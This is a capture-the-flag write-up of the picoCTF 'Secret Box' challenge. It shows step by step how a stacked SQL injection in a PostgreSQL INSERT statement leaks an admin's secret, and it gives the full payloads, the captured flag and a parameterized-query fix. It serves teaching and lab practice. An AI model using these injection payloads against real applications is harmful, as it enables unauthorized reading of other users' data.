<div align="center">

# 💉 Secret Box ; SQL Injection

[](https://play.picoctf.org)
[]()
[]()
[]()
[]()

**Author:** [Janice He](https://www.linkedin.com/in/janice-he/) &nbsp;|&nbsp; **Technique:** Stacked SQL Injection  INSERT-based blind exfiltration

</div>

---

## 📋 Challenge Description

> *This secret box is designed to conceal your secrets. It's perfectly secure  only you can see what's inside. Or can you? Try uncovering the admin's secret.*

**The mission:** Extract the admin's secret from the database and capture the flag.

---

##  Tools Used

| Tool | Purpose |
|------|---------|
| 🕷️ Burp Suite | Intercept & inspect HTTP traffic |
| 🐘 PostgreSQL Knowledge | Exploit stacked query behavior |
| 🧠 Source Code Review | Identify injection point & admin UUID |

---

##  Reconnaissance

### Step 1 ; Downloading & Extracting Source Code

The challenge provides a downloadable source archive in `.gz` format. Extract it:

```bash
tar -xvzf filename.tar.gz
```

Digging into the source, we find `db.js`  which seeds the database on startup:



>  **Critical find:** The admin's `owner_id` is hardcoded in `db.js`:
> ```
> e2a66f7d-2ce6-4861-b4aa-be8e069601cb
> ```
> This UUID owns the flag. Mission target confirmed.

---

### Step 2 ; Exploring the Web Application

Navigating to the challenge URL reveals a secrets vault web app:


Signed up with the username **rakshak07** and enabled Burp Suite proxy to intercept all traffic:



---

### Step 3 ; Login & Session Analysis

Logged in successfully:



After login, the server issues a session cookie:

```
Set-Cookie: auth_token=8d75141c-bf21-4f60-b796-2561c1a44395;
```

The app redirects to `/`  standard homepage. Let's go deeper.

---

### Step 4 ; The "Create New Secret" Feature

The app provides a form to store personal secrets:



Submitted a test value `nice_nice`  executed successfully with no errors:



Since the source code already confirmed **PostgreSQL** as the backend database, the next logical step is to probe for SQL injection.

---

## 🧪 Identifying the Vulnerability

### Step 5 ; Single Quote Injection Test

Injected a single quote `'` into the secret content field:



**The app returned a raw PostgreSQL error  unhandled and fully exposed:**



```
error: INSERT INTO secrets(owner_id, content) VALUES ('b285ccb2-d597-4800-8452-9f14951493d9', ''')
unterminated quoted string at or near "''')"
    at parseErrorMessage (/challenge/node_modules/pg-protocol/dist/parser.js:305:11)
    at Parser.handlePacket (/challenge/node_modules/pg-protocol/dist/parser.js:143:27)
    at Parser.parse (/challenge/node_modules/pg-protocol/dist/parser.js:37:38)
    at Socket.<anonymous> (/challenge/node_modules/pg-protocol/dist/index.js:11:42)
    at Socket.emit (node:events:517:28)
    at addChunk (node:internal/streams/readable:368:12)
    at readableAddChunk (node:internal/streams/readable:341:9)
    at Readable.push (node:internal/streams/readable:278:10)
    at TCP.onStreamRead (node:internal/stream_base_commons:190:23)
```

> 🔴 **SQL Injection confirmed.** The error reveals everything we need:
> - **Backend DB:** PostgreSQL (via `pg-protocol`)
> - **Runtime:** Node.js
> - **Injection point:** The `content` field inside an `INSERT` statement
> - **Our input** is placed raw into the SQL query  zero sanitization

---

## 🧠 Understanding the Injection Point

The backend query structure (confirmed from the error):

```sql
INSERT INTO secrets(owner_id, content) VALUES ('[user_id]', '[OUR INPUT HERE]')
```

We control `[OUR INPUT HERE]` entirely. The plan:
1. **Escape** the string context with `'`
2. **Terminate** the statement with `);`
3. **Inject** a second SQL statement (stacked query  PostgreSQL supports this)
4. **Comment out** the trailing `')` garbage with `-- -`

### Step 6 ; Validating the Escape Sequence

Payload: `');-- -`





✅ Empty secret, no error. The injection terminates cleanly. We now have a stable injection primitive.

---

## ⚔️ Exploitation

### Step 7 ; First Attempt: Direct SELECT (Goes Blind)

```sql
');SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb'-- -
```

**Result:** Query executes server-side  but the `SELECT` output is **never returned to the UI**. The app only renders secrets that belong to the **currently logged-in user's `owner_id`**. The admin's data exists in the DB but we can't see it this way.

We need a different approach.

---

### Step 8  The Strategy: INSERT + Subquery Exfiltration

Since SELECT output isn't reflected, we **write the admin's secret into our own account** using a second `INSERT` statement with a nested `SELECT` subquery.

PostgreSQL supports this INSERT-SELECT pattern:

```sql
INSERT INTO TargetTable (col1, col2)
SELECT col1, col2 FROM SourceTable WHERE condition;
```

After a quick reference lookup, we adapt it to our two-column `secrets` table:



Our adapted structure:

```sql
INSERT INTO secrets (owner_id, content)
VALUES ('[OUR_UUID]', (SELECT content FROM secrets WHERE owner_id='[ADMIN_UUID]'));
```

This **copies the admin's secret content into our own account**  where we can read it freely on the "My Secrets" page.

---

### Step 9 ; Retrieving Our Current `owner_id`

Session UUIDs can change between logins, so we need the **latest active `owner_id`**. The trick: trigger the SQL error again with a single quote  our UUID is exposed in the stack trace:



```
Our current owner_id:  9b91246c-bec8-4be0-8bbf-4f24fc584639
Admin's owner_id:      e2a66f7d-2ce6-4861-b4aa-be8e069601cb  (from db.js)
```

---

### Step 10 ; Building & Firing the Final Payload

```sql
');INSERT INTO secrets(owner_id, content) VALUES ('9b91246c-bec8-4be0-8bbf-4f24fc584639', (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb'))-- -
```

**Breakdown of what this does:**

```
'                        → closes the open content string
;                        → terminates the original INSERT statement
INSERT INTO secrets(owner_id, content)
VALUES (
  '9b91246c-...',        → our own owner_id (so it shows in MY secrets)
  (SELECT content        → subquery: fetch admin's secret
   FROM secrets
   WHERE owner_id=
   'e2a66f7d-...')       → admin's UUID from source code
)
-- -                     → comments out the trailing ') leftover from original query
```

Submitted the payload:



---

## 🚩 Result

Navigated to **My Secrets**  a brand new entry appeared, written by our injected INSERT, containing the admin's secret:



```
picoCTF{sql_1nject10n_429d1d8c}
```

---

## 📖 Vulnerability Summary

<details>
<summary><strong>🔴 Stacked SQL Injection in INSERT Statement (CWE-89)</strong></summary>

**Type:** CWE-89  Improper Neutralization of Special Elements in SQL Commands  
**Backend:** PostgreSQL via Node.js `pg` driver  
**Injection Point:** `content` field of the "Create Secret" form  
**Impact:** Full read access to **any row** in the `secrets` table, regardless of `owner_id`  
**Root Cause:** Raw string interpolation  user input is directly concatenated into the SQL query string with no parameterization

</details>

---

## 🛠️ Fix

```js
// ❌ VULNERABLE  raw string interpolation, user input hits SQL parser directly
db.query(`INSERT INTO secrets(owner_id, content) VALUES ('${uid}', '${content}')`)

// ✅ SECURE  parameterized query, input is treated as data, never as SQL
db.query('INSERT INTO secrets(owner_id, content) VALUES ($1, $2)', [uid, content])
```

---

## ⚡ Attack Chain (TL;DR)

```
[Source Code Review] → Found admin owner_id hardcoded in db.js
         ↓
[Single Quote Test] → Confirmed raw SQLi in INSERT, full error exposed
         ↓
[Escape Validation] → ');-- - terminates cleanly, stable injection confirmed
         ↓
[SELECT Attempt] → Executes but output not reflected (blind injection)
         ↓
[Error Trigger] → Extracted our current owner_id from PostgreSQL stack trace
         ↓
[INSERT + Subquery] → Copied admin secret into our own account via stacked query
         ↓
[My Secrets Page] → Admin secret now visible under our account
         ↓
[PWNED] 🚩
```

---

## 🧠 Key Takeaways

- **Error messages are intelligence.** The raw PostgreSQL stack trace leaked the injection point, the DB engine, the query structure, and our own `owner_id` , all critical recon in one shot.
- **Blind doesn't mean impossible.** When SELECT output isn't reflected, pivot: use a second INSERT to write the result somewhere you *can* read.
- **Source code review wins every time.** The admin UUID was sitting in `db.js` from day one. Always read available source.
- **Stacked queries in PostgreSQL** allow multiple statements separated by `;`. Unlike MySQL (which often blocks this), PostgreSQL executes them. Know your target DB engine.
- **The error itself gave us the `owner_id`** — triggering a deliberate error to leak runtime values is a classic technique, not just debugging noise.

---

<div align="center">

*"The data was never hidden. It just needed the right query."*

[](https://play.picoctf.org)

</div>
